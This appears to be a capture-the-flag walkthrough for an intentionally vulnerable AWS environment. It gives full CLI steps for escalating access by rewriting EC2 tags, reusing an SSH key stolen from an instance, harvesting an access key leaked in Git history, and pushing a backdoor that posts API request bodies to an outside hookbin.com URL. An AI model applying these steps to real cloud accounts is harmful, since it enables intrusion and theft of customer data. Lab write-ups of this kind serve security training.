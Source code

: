 

## Step 1

You are given credentials of an initial IAM user. 

Using the AWS CLI or AWS Console (e.g. using `aws-vault add initial` then `aws-vault login initial --no-session`), note that the IAM policy attached to your user allows it to establish a SSM session on all EC2 instances tagged with `Environment=sandbox`, and to manage tags of all EC2 instances tagged with `Environment=dev`.

Check the running EC2 instances. You notice one is tagged with `Environment=dev`, and you therefore can't SSM to it. Instead, overwrite the `Environment` tag with the value `sandbox`, then establish a SSM session to the instance:

```
aws ec2 create-tags --resources i-xxxx --tags Key=Environment,Value=sandbox
aws ssm start-session --target i-xxxx
```

## Step 2

Once on the instance, notice the private SSH key stored at `/home/ssm-user/.ssh/id_rsa`. You can extract the corresponding public key fingerprint to notice it is linked to the CodeCommit credentials of the IAM user `cloner`, who has the permission `codecommit:GitPull` on a repository:

```
$ ssh-keygen -f .ssh/stolen_key -l -E md5
2048 MD5:be:5e:49:5e:e5:d0:66:bb:91:30:3f:66:2e:97:1a:11

$ aws iam list-ssh-public-keys --user-name cloner
{
  "SSHPublicKeys": [
    {
      "UserName": "cloner",
      "SSHPublicKeyId": "APKA254BBSGPK2B5K5YQ",
      "Status": "Active",
      "UploadDate": "2021-12-27T10:34:19+00:00"
    }
  ]
}
$ aws iam get-ssh-public-key --user-name cloner --ssh-public-key-id APKA254BBSGPK2B5K5YQ --encoding PEM --output text --query 'SSHPublicKey.Fingerprint' 
be:5e:49:5e:e5:d0:66:bb:91:30:3f:66
```

## Step 3

Set up your local environment to clone the repository using the [CodeCommit documentation](https://docs.aws.amazon.com/codecommit/latest/userguide/setting-up-ssh-unixes.html). In short:

- Copy the SSH key to your local machine (`.ssh/stolen_key`) and `chmod 700` it

- Find the CodeCommit user ID of `cloner` using `aws iam list-ssh-public-keys --user-name cloner --output text --query 'SSHPublicKeys[0].SSHPublicKeyId'`

- Use the following SSH configuration (in your `.ssh/config`):

```
Host *.amazonaws.com
	IdentityFile ~/.ssh/stolen_key
```

- Then, clone the repository using `git clone ssh://<SSH-KEY-ID>@git-codecommit.<REGION>.amazonaws.com/v1/repos/backend-api` (where `SSH-KEY-ID` should look like `APKA2...`)

## Step 4

The repository contains the backend code of the Lambda function exposed through the API gateway. Check the commit history to note a leaked access key:

```diff
commit 576bc9e2979cb780dacefa1cf758dabb29f6b223
Author: christophe <christophe>
Date:   Mon Dec 27 10:38:31 2021 +0000

    Use built-in AWS authentication instead of hardcoded keys

diff --git a/buildspec.yml b/buildspec.yml
index 7130465..4beaa61 100644
--- a/buildspec.yml
+++ b/buildspec.yml
@@ -1,22 +1,20 @@
-      version: 0.2
+version: 0.2
 phases:
   pre_build:
     commands:
-    - export AWS_ACCESS_KEY_ID=AKIA...
-    - export AWS_SECRET_ACCESS_KEY=hnOVW...dtX
     - echo "Authenticating to ECR"
```

## Step 5

These credentials you found belong to the user `developer`, who has pull and push access to this repository. Use this access to backdoor the application and steal the sensitive data that customers are sending to the API!

- For instance, add a piece of code that sends the secret data to an attacker-controlled server:

```diff
diff --git a/app.py b/app.py
index 10e7da5..e17a2ba 100644
--- a/app.py
+++ b/app.py
@@ -3,6 +3,7 @@ import json

 def handle(event):
   body = event.get('body')
+  import requests; requests.post("https://hookbin.com/kx9QGWGQMoUBjzggjga9", data=body)
   if body is None:
     return 400, "missing body"
```

- Commit the file and push it. The easiest is to use the AWS Console. You can also use the AWS CLI:

```
$ aws codecommit get-branch --repository-name backend-api  --branch-name master
{
    "branch": {
        "branchName": "master",
        "commitId": "e6a2c7fb17e3759d120404d2b0fe28b92c0a755e"
    }
}

$ aws codecommit put-file --repository-name backend-api --branch-name master --file-content fileb://./app.py --file-path app.py --parent-commit-id e6a2c7fb17e3759d120404d2b0fe28b92c0a755e
```


Note that the application is automatically being built by a CI/CD pipeline in CodePipeline. After a few minutes, your backdoored application will be deployed, and your attacker-controlled server will receive the flag!

